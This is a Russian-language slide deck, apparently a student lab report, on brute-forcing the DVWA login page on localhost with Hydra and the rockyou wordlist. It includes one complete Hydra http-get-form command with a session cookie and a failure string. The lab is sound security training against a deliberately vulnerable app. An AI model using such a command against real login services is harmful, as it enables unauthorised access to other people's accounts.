



---
## Front matter
lang: ru-RU
title: Ind Project Stage №3
author: |
	Anna D. Zaytseva\inst{1,3}
institute: |
	\inst{1}RUDN University, Moscow, Russian Federation
date: NEC--2024, 28 September, Moscow

## Formatting
toc: false
slide_level: 2
theme: metropolis
header-includes: 
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
aspectratio: 43
section-titles: true
---

# Цель работы

Цель работы --- Приобретение практических навыков по использованию инструмента Hydra для брутфорса (подбора) паролей.

# Выполнение этапа индивидуального проекта

## Steps 1-4

Подготовка к подбору паролей:

{ #fig:001 width=70% }

{ #fig:002 width=70% }

{ #fig:003 width=70% }

{ #fig:004 width=70% }

## Steps 5-6

Работа с Hydra, подбор пароля для учётной записи:

```
hydra -l admin -P ~/Downloads/rockyou.txt -s 80 localhost http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=medium;PHPSESSID=of74bg222ffc6vigcsjfqbvhq7:F=Username and/or password incorrect."
```

{ #fig:005 width=70% }

## Step 7

Настроила сервер apache2:

Ввела данные в соответствующее поле. Операция прошла успешно:

{ #fig:006 width=70% }

# Вывод

Приобрела практический навык по использованию инструмента Hydra для брутфорса (подбора) паролей.

# Библиография

* https://github.com/digininja/DVWA?tab=readme-ov-file
* https://www.kali.org/
* https://spy-soft.net/rockyou-txt/
* https://losst.pro/kak-polzovatsya-hydra#perebor-parolya-autentifikcii-http

## {.standout}

Спасибо за внимание!
